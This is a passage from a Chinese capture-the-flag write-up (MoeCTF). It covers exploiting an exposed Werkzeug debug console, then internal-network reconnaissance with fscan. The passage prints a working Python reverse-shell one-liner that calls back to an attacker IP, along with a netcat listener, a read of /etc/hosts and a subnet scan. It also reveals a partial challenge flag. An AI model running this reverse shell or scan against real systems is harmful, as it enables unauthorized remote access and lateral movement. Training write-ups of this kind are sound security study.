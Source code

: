 得到提示在地址栏输入 http://192.168.179.128:8000/console ，进入 console，输入 pin 码

#### 反弹shell

kali 进行监听
```shell
nc -lvvp 2223 
```
在console输入
```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.179.129",2223));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

在根目录发现部分 flag 
```
moectf{Information-leakage-Is-dangerous!
```

还有 readme 的内容
```
恭喜你通过外网渗透拿下了本台服务器的权限
接下来，你需要尝试内网渗透，本服务器的/app/tools目录下内置了fscan
你需要了解它的基本用法，然后扫描内网的ip段
如果你进行了正确的操作，会得到类似下面的结果
10.1.11.11:22 open
10.1.23.21:8080 open
10.1.23.23:9000 open
将你得到的若干个端口号从小到大排序并以 - 分割，这一串即为hint.zip压缩包的密码（本例中，密码为：22-8080-9000）
注意：请忽略掉xx.xx.xx.1，例如扫出三个ip 192.168.0.1 192.168.0.2 192.168.0.3 ，请忽略掉有关192.168.0.1的所有结果！此为出题人服务器上的其它正常服务
对密码有疑问随时咨询出题人$ 
```

### 攻击内网服务器

在刚刚得到的外网服务器上面，查看主机名与IP地址之间的映射关系
```shell
cat /etc/hosts
```

得到的内容如下
```
127.0.0.1       localhost
::1     localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
172.20.0.4      0bc78aa6bec8
172.21.0.3      0bc78aa6bec8
```

正常来说，这里需要使用扫描工具，本题中已经预设好了 ```fscan```，在 ```/app/tools``` 目录下
```shell
./fscan -h 172.20.0.4/24
```
但是我这里 ```fscan``` 没扫出来不知道什么情况，先往下走
参考一下别人的情况，如下
```
[*]Icmp alive hosts len is:4
172.20.0.4:8080 open
172.20.0.2:6379 open
172.20.0.3:3306 open
172.20.0.1:3306 open
172.20.0.1:80 open
172.20.0.2:22 open
172.20.0.1:22 open
```